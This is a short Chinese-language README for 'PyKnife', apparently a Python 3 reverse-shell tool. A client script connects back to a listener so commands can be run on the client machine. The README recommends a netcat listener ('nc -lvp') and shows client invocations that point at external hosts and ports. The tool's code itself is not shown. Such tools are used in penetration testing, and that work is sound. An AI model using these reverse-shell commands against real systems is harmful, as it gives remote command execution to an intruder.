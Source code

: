 # PyKnife 

> 一款基于socket通信的小工具，主要用于反弹shell进行命令执行

> 目前是基于Python3写的，全部使用Py3内置库，后面再考虑更新py2语法版本（Py2内置未包含chardet比较烦）
----

### 使用方法：

该工具分为服务端 s.py 和客户端 c.py

1、服务端先监听，s.py 未写参数方法，需要修改代码来修改监听主机:端口，另外由于有BUG暂未修复。

因此强烈推荐使用 *nc -lvp [port]* 进行服务端监听

2、客户端 c.py 反向连接服务端
  支持长短参数
  
  ```shell
  c.py -h
  c.py -d 127.0.0.1 -p 8000
  c.py --host 8.8.8.8 --port 6789
  ```

